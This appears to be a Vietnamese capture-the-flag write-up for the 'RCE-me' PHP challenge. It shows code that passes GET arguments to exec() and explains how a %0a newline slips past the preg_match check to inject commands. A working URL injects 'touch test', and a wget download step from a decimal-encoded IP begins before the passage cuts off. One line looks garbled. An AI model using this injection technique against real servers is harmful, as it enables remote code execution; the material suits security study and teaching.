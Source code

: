 # RCE-me

```php
 <?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```

một số điểm cần chú ý:
1. Đoạn code trên thực hiện lệnh bằng cách preg_match rất phổ thông

2. Tiền tố /bin/orange

Bài này chúng ta sẽ lợi dụng vấn đề trong biểu thức chính quy để khai thác. Biểu thức chính quy trong đoạn code trên vẫn có thể khớp khi cuối chuỗi là ký tự xuống dòng (%0a). Vì vậy, các lệnh có thể được thực thi bằng cách sử dụng ký tự xuống dòng.
/^\w+$\$http://ip/args[]=xxx%0a&args[]=touch&args[]=test

Bạn có thể tìm hiểu thêm về: PHP can execute uncompressed packaged PHP files in Linux

bạn có thể tạo một kiểm tra đơn giản bằng cách truy cập:
http://192.168.158.135/?args[]=xxx%0a&args[]=touch&args[]=test

Các tham số trong args là xxx\n、touch、test, cả ba tham số đều có thể vượt qua kiểm tra của preg_match() Lúc này, lệnh được thực thi trong exec là:
> /bin/orange xxx
> touch test

Khai thác:
1. sử dụng wget để tải xuống file
địa chri IP thông thường a.b.c.d, nhưng địa chỉ IP có thể được biểu thị bằng số thập phân . Vì vậy, chúng ta có thể tải xuống bất kỳ tệp nào.
Tiếp theo, chúng ta xây dựng một dịch vụ web cục bộ index.php, viết nó 